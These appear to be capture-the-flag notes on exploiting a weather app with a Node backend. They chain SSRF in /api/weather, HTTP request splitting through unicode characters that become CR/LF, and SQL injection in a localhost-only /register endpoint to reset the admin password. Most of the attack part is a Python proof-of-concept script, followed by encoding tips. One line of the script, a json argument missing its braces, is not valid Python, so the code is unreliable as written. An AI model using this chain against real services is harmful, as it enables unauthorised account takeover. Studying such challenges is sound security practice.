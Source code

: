 Undoable haha.... (insanely precise code needed)

Basically,

1. SSRF possible in /api/weather  
2. SQL injection available in /register but only accept request from 127.0.0.1
3. Vulnerable version of node used allows sending two http requests in a single req
	- SSRF response splitting through /api/weather
	- allows sending of 
1. Create a post request to /api/weather that hides a post req to /register that hides a SQLi
2. .... Ridiculous .....


POC for changing password of admin to admin
```python
import requests

  
  
url = "http://144.126.206.60:32174"

username="admin"
password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"

parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19


endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='

  

city='test'
country='test'

res=requests.post(url=url+'/api/weather',json='endpoint':endpoint,'city':city,'country':country)

```


Things to note:
- url had to be http://144.126.206.60:32174 not http://144.126.206.60:32174/ the backslash gives error

- payload sent is meant to be ĠDOĠ etc not the escaped versions 
	- ie use \\u0120 not \\\\u0120


exploit info:
HTTP libs usually escape special chars but this ver of node cant detect unicode being used 
unicode --> Node --> encoded as latin1 --> server

\\u010A --> (allows) --> \\n                  --> server renders it as next line char
\u0120   --> (allows) --> "space char" --> server renders it as a space
%22      --> (allows) --> "                    --> server renders it as "




